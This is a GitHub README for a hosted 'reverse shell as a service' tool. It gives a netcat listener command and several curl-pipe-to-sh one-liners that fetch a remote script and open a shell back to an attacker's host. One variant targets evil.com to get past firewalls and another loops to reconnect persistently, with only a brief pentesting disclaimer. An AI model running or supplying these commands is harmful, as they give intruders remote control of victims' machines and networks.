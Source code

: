 # reverse-shell

> Reverse Shell as a Service - https://zyx.iami.xyz modified from https://github.com/lukechilds/reverse-shell and host it in https://www.openode.io/

## Usage

### 1. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -l 1337
```
### 2. Execute reverse shell on target


```shell
curl https://zyx.iami.xyz/192.168.0.69:1337 | sh
```

Go back to your machine, you should now have a shell prompt.

### 3. Don't be a dick

This is meant to be used for pentesting or helping coworkers understand why they should always lock their computers. Please don't use this for anything malicious.

## Demo

<img src="https://i.imgur.com/qqjhxAw.gif" width="808">

## Tips

### Hostname

You can use a hostname instead of an IP.

```shell
curl https://zyx.iami.xyz/localhost:1337 | sh
```

### Remote connections

Because this is a reverse connection it can punch through firewalls and connect to the internet.

You could listen for connections on a server at evil.com and get a reverse shell from inside a secure network with.

```shell
curl https://zyx.iami.xyz/evil.com:1337 | sh
```

### Reconnecting

By default when the shell exits you lose your connection. You may do this by accident with an invalid command. You can easily create a shell that will attempt to reconnect by wrapping it in a while loop.

```shell
while true; do curl https://zyx.iami.xyz/yourip:1337 | sh; done
```

Be careful if you do this to a coworker, if they leave the office with this still running you're opening them up to attack.

## License

MIT © Luke Childs
